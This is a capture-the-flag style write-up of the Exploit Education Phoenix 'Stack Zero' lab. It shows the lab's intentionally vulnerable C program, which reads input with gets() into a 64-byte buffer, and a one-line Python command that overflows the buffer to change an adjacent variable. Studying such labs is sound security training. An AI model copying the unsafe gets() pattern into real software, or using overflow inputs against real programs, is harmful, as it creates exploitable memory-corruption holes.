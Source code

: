 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Stack Zero"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```




```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

The code uses **gets** function which can take input more than buffer length, hence the exploit :)

This level only asks to change the value of **changeme** to any value other than zero so we can just enter any random input that exceeds the buffer length to overwrite the value of **changeme**.

# Solution:

```
$ python -c "print 'A'*100" | /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```
